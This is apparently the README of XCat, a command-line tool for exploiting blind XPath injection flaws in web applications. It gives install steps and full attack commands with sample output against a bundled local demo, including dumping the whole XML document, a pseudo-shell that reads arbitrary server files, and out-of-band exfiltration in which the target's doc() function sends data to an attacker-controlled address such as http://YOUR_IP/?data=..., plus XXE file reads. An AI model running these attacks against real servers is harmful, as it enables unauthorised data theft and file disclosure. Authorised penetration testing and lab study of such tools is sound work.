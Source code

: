 XCat
====

XCat is a command line program that aides in the exploitation of blind XPath injection vulnerabilities. It can be used
to retrieve the whole XML document being processed by a vulnerable XPath query, read arbitrary files on the hosts filesystem
and utilize out of bound HTTP requests to make the server send data directly to xcat.

XCat is built to exploit boolean XPath injections (Where only one bit of data can be extracted in one request)
and it requires you to manually identify the exploit first, this does not do that for you.

You can install xcat using pip: `pip install xcat`

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only a few pure-python dependencies)
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Features planned for future releases:

* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Error based retrieval

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The syntax for a simple command you can execute against this server is:

    xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve

This command specifies the target URL (our localhost server), the GET or POST data to send (title=Bible), the vulnerable
parameter (title) and a string to indicate a true response (Book found). Executing this will retrieve the entire XML file
being queried.

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...

The the retrieval of documents can be sped up in a number of different ways, such as using the doc function to make the
server send data directly to XCat (explained in more detail below). Each of the techniques is called a feature and can
be viewed by using the `test_injection` command. This will display information about the injection, including the
type (integer, string, path name) and various features that XCat has is able to use. XCat knows which features
are best and will gracefully degrade if they fail for any reason.
    
    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" test_injection
    Testing parameter title:
    SingleQuoteStringInjection:             /lib/book[name='?']
        - XPath2
        - CodepointSearch
        - DocFeature
        - EntityInjection
        - EfficientSubstringSearch

Usage
-----
Before specifying what data you want to extract from the injection you need to tell XCat how to exploit it. XCat can't
do this for you, so you have to do the initial hard work of finding a vulnerability. XCat needs a target URL it can
reach, URL encoded arguments, the vulnerable parameter and a string to match in the response. The initial data given
must be valid and trigger either a true or false response.

    Usage: xcat [OPTIONS] TARGET ARGUMENTS TARGET_PARAMETER MATCH_STRING
                      COMMAND [ARGS]...

    Options:
      --method TEXT                   HTTP method to use
      --true                          match_string indicates a true response
      --false                         match_string indicates a false response
      --loglevel [debug|info|warn|error]
      --logfile FILENAME
      --public-ip TEXT                Public IP address to use with OOB
                                      connections
      --help                          Show this message and exit.

    Commands:
      run
      test_injection  Test parameter for injectability

The two most useful commands are `run retrieve` and `run file_shell`. The first allows you to retrieve the whole document
being processed by the query in either XML or JSON format and specify a file for it to be dumped to.

    Usage: xcat-script.py run retrieve [OPTIONS]

    Attempt to retrieve the whole XML document

    Options:
      --query TEXT         Query to retrieve. Defaults to root node (/*[1])
      --output FILENAME    Location to output XML to
      --format [xml|json]  Format for output
      --help               Show this message and exit.

The second command takes no additional arguments but enables you to read arbitrary files on the filesystem. This only
works if the vulnerable parameter supports the doc feature (and optionally entity injection):

    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" run file_shell
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    There are three ways to read files on the file system using XPath:
     1. inject: Can read arbitrary text files as long as they do not contain any XML
     2. comment: Can read arbitrary text files containing XML snippets, but cannot contain '-->'
     3. doc: Reads valid XML files - does not support any other file type. Supports remote file URI's (http) and local ones.
    Type doc, inject or comment to switch modes. Defaults to inject
    Type uri to read the URI of the document being queried
    Note: The URI should have a protocol, e.g: file:///test.xml. Bad things may happen if the URI does not exist, and it is best to use absolute paths.
    >> uri
    URI: file:///C:/Users/x/xcat/src/example_application/input.xml
    >> file:///C:/Users/x/xcat/src/example_application/
    secret.txt
    secret.xml
    ...
    >> doc
    Switched to doc mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.xml
    <?xml version="1.0" encoding="utf-8"?>
    <this_contains_xml>
        <node>
            hello
    ...
    >> inject
    Switched to inject mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.txt
    This is a secret file. Do not read me!

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.


HTTP Postback / doc function and entity injection
----------------------------

Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function
called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents
from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working
then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP
server within the program which listens on a specified port and by then calling the doc() function with the currently
targeted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your
IP (requires the port to be forwarded and/or a public IP) in the following format similar to:

	http://YOUR_IP/?data=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing
you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using
the fileshell command (shown above) and enter the file path for an XML file.

This can be taken one step further by using entity injection to read arbitrary files on the file system. XCat does this
by starting a HTTP server and makes the vulnerable application load an XML file from it. This XML file contains crafted
DOCTYPE declarations that cause the application to include local files in the XML file as it is being parsed, the contents
of which can then be queried and sent back to XCat in another HTTP request.

[This OWASP wiki page](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) covers XML entity
injection this technique in more detail.


